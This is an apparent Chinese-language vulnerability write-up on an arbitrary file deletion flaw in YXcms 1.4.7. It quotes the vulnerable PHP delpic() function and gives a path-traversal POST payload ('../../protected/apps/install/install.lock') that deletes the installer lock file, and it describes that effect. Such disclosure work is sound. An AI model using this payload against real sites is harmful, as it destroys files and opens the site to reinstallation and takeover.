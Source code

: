 YXcms 1.4.7 任意文件删除
========================

一、漏洞简介
------------

二、漏洞影响
------------

YXcms 1.4.7

三、复现过程
------------

### 漏洞分析

漏洞文件：protected/apps/admin/controller/photoController.php,在第355行的delpic()函数，可以看到\$picname接收POST过来的值，然后\$path等于文件开头定义的静态变量
static protected \$uploadpath=\'\';//图片上传路径
没有对传入的值进行任何的过滤，使用函数file\_exists()判断一下文件是否存在就给unlink执行删除文件了。

    public function delpic()
    {
        if(empty($_POST['picname'])) $this->error('参数错误~');
        $picname=$_POST['picname'];
        $path=$this->uploadpath;
        if(file_exists($path.$picname))
          @unlink($path.$picname);
        else{echo '图片不存在~';return;} 
        if(file_exists($path.'thumb_'.$picname))
           @unlink($path.'thumb_'.$picname);
        else {echo '缩略图不存在~';return;}
        echo '原图以及缩略图删除成功~';
    }

### 复现

需要先登录后台，然后访问之后会显示缩略图不存在

payload

    http://0-sec.org/index.php%3Fr%3Dadmin/photo/delpic

POST：

    picname=../../protected/apps/install/install.lock

![](./.resource/YXCMS1.4.7任意文件删除/media/rId26.png)

然后访问网站首页就会自动转到安装的页面

![](./.resource/YXCMS1.4.7任意文件删除/media/rId27.png)

看到目录下的install.lock文件已经被删除了

![](./.resource/YXCMS1.4.7任意文件删除/media/rId28.shtml)
